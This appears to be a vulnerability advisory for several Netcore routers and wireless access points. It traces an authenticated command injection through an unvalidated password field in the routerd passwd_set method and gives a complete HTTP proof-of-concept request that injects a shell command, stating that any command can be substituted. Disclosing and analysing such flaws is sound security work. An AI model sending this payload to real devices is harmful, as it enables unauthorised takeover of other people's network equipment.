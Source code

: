 # Arbitrary Command Injection Vulnerability in Netcore Routers and Wireless APs After Authorization

## I. Affected Products and Firmware Download Links

NBR1005GPEV2：https://www.netcoretec.com/service-support/download/firmware/2707.html

B6V2：https://www.netcoretec.com/service-support/download/firmware/2703.html

COVER5：https://www.netcoretec.com/service-support/download/firmware/2680.html

NAP930：https://www.netcoretec.com/service-support/download/firmware/2704.html

NAP830：https://www.netcoretec.com/service-support/download/firmware/2708.html

NBR100V2：https://www.netcoretec.com/service-support/download/firmware/2706.html

NBR200V2：https://www.netcoretec.com/service-support/download/firmware/2705.html

## II. Vulnerability Causes

The firmware of these routers uses the `uhttpd` + `ubus` architecture.

**uhttpd (Web Server)**

* Listens on port `80` (HTTP) and accepts `POST /ubus` requests.
* Parses the request header to confirm the `Content-Type` is `application/x-www-form-urlencoded`, but the actual payload is JSON (non-standard but common).
* Forwards requests to the `ubus` RPC service (typically via `ubus` Unix Socket or CGI interface).

Running the `ubus list` command shows registered ubus services

![1746600757491](image/README/1746600757491.png)

The vulnerability is found in `routerd` (file: `/usr/bin/routerd`). In its data segment, the callback function for the `passwd_set` method is `sub_416260`

![1746600953768](image/README/1746600953768.png)

In `sub_416260`, `blobmsg_parse` parses Blob format data (OpenWrt's binary JSON format, see image:

![1746601012709](image/README/1746601012709.png)

The structure mapping is:

* `v19` → `user` (username)
* `v20` → `pwd` (password), with `v16 = v20`
* `v21` → `by` (empty if not provided in the request)

![1746601107563](image/README/1746601107563.png)

The username from `v19` is extracted, skipping the Blobmsg header. Each character is checked to ensure it is `_` (ASCII `0x5F`) or alphanumeric (via `isalnum`). Illegal characters trigger an error log

![1746601255662](image/README/1746601255662.png)

The password from `v16` (stored as `v17`, skipping the Blobmsg header) is passed to `passwd_set_api`  **without any validation** . This function executes `passwd_set_api(username, password)`.

If the result is `0` (success), and the username is "root" with `v15` (value of the `by` field) not equal to "ac", the code writes `v17` to:

```bash
uci set auto_ac.auto_ac.passwd=%s; uci commit auto_ac
```

and calls `system()` with this command, creating a **command injection vulnerability**

![1746601374783](image/README/1746601374783.png)

In `passwd_set_api`, the password (`a2`) is not validated

![1746601489477](image/README/1746601489477.png)

If a password exists, it constructs commands:

```c
snprintf(v10, 0x80u, "passwd %s", a1);  // e.g., "passwd root"
snprintf(v11, 0x80u, "%s\n", a2);       // e.g., "admin123\n"
v4 = popen(v10, "w");                   // Opens a command pipe for writing
fwrite(v11, ...);                        // Writes the password twice (for confirmation)
```

On success, it returns `0`, leading to the command injection vulnerability

![1746601700013](image/README/1746601700013.png)

## III. POC Explanation

```
POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 163
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, /; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/guide/guide.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive{"jsonrpc":"2.0","id":22,"method":"call","params":["a9c61fc83080b13ded7512db83c9b123","routerd","passwd_set",{"user":"root","pwd":"admin123;mkdir -p /tmp/test1"}]}
```

* Replace the `sid` in the `params` field (first value, e.g., `"a9c61fc83080b13ded7512db83c9b123"`) with the actual session ID obtained after login.
* The command `mkdir -p /tmp/test1` can be replaced with any arbitrary command.

Demonstration of remote shell access:

![1746603016270](image/README/1746603016270.png)

## IV. Recommended Solution

Apply the same validation used for the username to the password: restrict it to contain only underscores, letters, and numbers.

**Discoverer: Exploo0Osion.**

**Please contact Netcore (Netis Technology) technical support to fix this vulnerability in a timely manner.**
